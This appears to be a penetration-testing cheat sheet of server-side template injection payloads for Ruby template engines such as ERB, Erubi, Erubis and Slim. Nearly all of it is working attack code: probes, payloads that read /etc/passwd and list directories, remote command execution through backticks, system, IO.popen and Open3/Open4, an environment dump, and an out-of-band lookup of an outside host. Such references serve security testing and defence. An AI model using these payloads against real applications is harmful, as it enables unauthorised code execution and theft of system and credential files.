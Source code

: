 # Server Side Template Injection - Ruby

## Summary

- [Templating Libraries](#templating-libraries)
- [Ruby](#ruby)
    - [Ruby - Basic injections](#ruby---basic-injections)
    - [Ruby - Retrieve /etc/passwd](#ruby---retrieve-etcpasswd)
    - [Ruby - List files and directories](#ruby---list-files-and-directories)
    - [Ruby - Remote Command execution](#ruby---remote-Command-execution)
- [References](#referenecs)


## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| Erb      | `<%= %>`   |
| Erubi    | `<%= %>`   |
| Erubis   | `<%= %>`   |
| HAML     | `#{ }`     |
| Liquid   | `{{ }}`    |
| Mustache | `{{ }}`    |
| Slim     | `#{ }`     |


## Ruby

### Ruby - Basic injections

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - Retrieve /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - List files and directories

```ruby
<%= Dir.entries('/') %>
```

### Ruby - Remote Command execution

Execute code using SSTI for **Erb**,**Erubi**,**Erubis** engine.

```ruby
<%=(`nslookup oastify.com`)%>
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

Execute code using SSTI for **Slim** engine.

```powershell
#{ %x|env| }
```


## References

* [Ruby ERB Template Injection - Scott White & Geoff Walton - September 13, 2017](https://web.archive.org/web/20181119170413/https://www.trustedsec.com/2017/09/rubyerb-template-injection/)